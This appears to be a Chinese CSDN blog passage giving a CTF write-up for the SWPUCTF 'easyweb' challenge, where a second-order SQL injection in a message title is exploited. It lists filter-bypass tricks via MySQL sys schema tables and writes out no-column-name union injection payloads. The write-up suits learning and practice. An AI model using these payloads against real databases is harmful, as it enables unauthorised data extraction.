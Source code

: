 

# SWPUCTF web 部分题解_HyyMbb的博客-CSDN博客

> 来源：[https://blog.csdn.net/a3320315/article/details/103760266](https://blog.csdn.net/a3320315/article/details/103760266)

# 0x01 web1 easyweb

随便注册个账号登陆后，测试发现留言处的title字段存在二次注入
![在这里插入图片描述](img/915f1295e422b827845479bc73aeb107.png)
有报错和回显，但是报错过滤了extractvalue和updatexml
考虑使用union，但是过滤了or，不能使用information_schema
对于mysql>5.7的版本，有sys数据库，前提是root权限才能访问

`innodb_index_stats`和`innodb_table_stats`都包含数据库和表，且对应database_name和table_name,且`mysql>5.62,` 但是一般都是默认关闭innodb引擎的

都包含`table_schema, table_name`两个字段
`sys.schema_auto_increment_columns #有包含自增字段的表的信息`
`sys.schema_table_statistics_with_buffer`
`sys.x$schema_table_statistics_with_buffer`

详细参考[链接](https://www.anquanke.com/post/id/193512)

##### 由于这儿我们最多只能知道表名，无法知道列名，可以使用无列名注入，我已知的有两种方法

1、使用join+using报错获得列名

```
?id=-1' union all select*from (select * from users as a join users b)c 
```

三个别名一个都不能少，假如报错提示不能拥有两个相同的列“id”，接下来过的第二列的名字

```
?id=-1' union all select*from (select * from users as a join users b using(id))c 
```

2、使用a.2或者反引号直接获得列

```
select `1` from (select 1,2,3 union select * from users)a
或者
select a.1 from (select 1,2,3 union select * from users)a
当反引号被过滤时可以使用 
```
